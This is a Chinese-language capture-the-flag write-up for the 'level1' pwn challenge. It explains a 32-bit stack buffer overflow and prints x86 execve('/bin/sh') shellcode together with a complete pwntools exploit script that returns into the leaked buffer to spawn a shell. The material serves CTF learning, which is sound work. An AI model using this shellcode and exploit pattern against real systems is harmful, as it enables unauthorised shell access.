

# 攻防世界: level1

## **[目标]**
stack overflow,ROP

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 查看有哪些保护机制开启：


- 没开canary，也没有开栈不可执行。



- vulnerable_function()里可以进行溢出，我们可以在栈中填写shellcode，执行来拿到shell权限。这里我们使用一段执行execve ("/bin/sh")命令的语句作为shellcode。

```
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
```

- 同 level0,找到溢出点的位置。容易计算出PC返回值的覆盖点为140个字节。我们只要构造一个”A”*140+ret字符串，就可以让pc执行ret地址上的代码了。

- shellcode起始地址在哪呢？shellcode是通过输入buf的时候写入的，所以就是buf的地址，而buf的地址会在程序运行过程中给出.

- 此时shellcode的地址，溢出点和返回地址都有了，我们可以写出下面的exp：


```
from pwn import *

p = process("./level1")
s = p.readline()
padding = 0x88+4

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

addr = p32(int(s[len("What's this:"):-2],16))

payload = shellcode 
payload += 'A'*(padding-len(shellcode))
payload += addr

p.send(payload)

p.interactive()
```

## **[参考阅读]**

[一步一步学习rop-x64](https://segmentfault.com/a/1190000007406442)

[一步一步学习rop-x86](c)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)